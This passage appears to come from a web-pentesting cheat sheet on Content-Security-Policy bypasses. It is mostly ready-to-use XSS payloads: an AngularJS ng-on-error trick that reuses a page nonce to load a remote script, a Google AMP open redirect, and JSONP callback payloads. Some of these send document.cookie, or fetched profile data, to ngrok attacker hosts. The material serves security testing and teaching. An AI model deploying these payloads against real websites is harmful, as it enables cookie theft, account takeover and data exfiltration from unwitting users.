 More [**payloads from this writeup**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):

```html
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

<!-- Trigger alert -->
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>

<!-- Reuse nonce -->
<img src=x ng-on-error='
	doc=$event.target.ownerDocument;
	a=doc.defaultView.top.document.querySelector("[nonce]");
	b=doc.createElement("script");
	b.src="//example.com/evil.js";
	b.nonce=a.nonce; doc.body.appendChild(b)'>
```

#### Abusing www.google.com for open redirect

The following URL redirects to example.com (from [here](https://www.landh.tech/blog/20240304-google-hack-50000/)):

```
https://www.google.com/amp/s/example.com/
```

Abusing \*.google.com/script.google.com

It's possible to abuse Google Apps Script to receive information in a page inside script.google.com. Like it's [done in this report](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/).

### Third Party Endpoints + JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```

Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:

```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
